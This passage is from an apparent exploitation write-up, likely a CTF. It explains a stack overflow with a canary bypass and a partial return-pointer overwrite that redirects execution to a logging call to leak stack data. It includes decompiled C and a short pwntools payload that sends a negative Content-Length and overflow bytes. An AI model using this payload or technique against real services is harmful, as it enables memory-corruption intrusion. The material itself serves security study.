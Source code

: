 ***Note**: It's possible to do a similar brute-force here by partially overwriting the return pointer byte-by-byte and checking the exit status, but that is slower and not as cool IMO (still pretty cool though)*

Without the base address, we can still partially overwrite the last several bits of the address to get useful jumps. I looked for close-by print statements that could potentially print out stack data. That's how I found this call at `0x001099be` in `start_ps_lp()`:

```c
FUN_00119b10(DAT_003e7010,"Child %d handling connection from %s:%u\n",pid,remote_addr,
             remote_port);
```

This function looks very similar to `fprintf()`. It takes in a file descriptor, format string, and a variable number of arguments for that format string. Could we manipulate these arguments by modifying the registers? Let's see what the default arguments would be if we didn't try to manipulate registers. We do this by changing the last byte of the return pointer to `0xbe` (which is the first byte to be overwritten because of endianness). 

<div align="center">

![Print](img/print.png)
</div>

This looks very promising. The first argument is in `rdi` and FD 4 refers to `ps_data.log`! The second argument is a pointer to the buffer we control! Once we have the canary this is all we need:

```python
io = start()
io.send(b'Content-Length: -1\r\n\r\n')
io.send(b'a' * 4095)
sleep(0.5)
io.send(b'b' + cyclic(8) + canary + cyclic(24) + b'\xbe')
io.close()
```
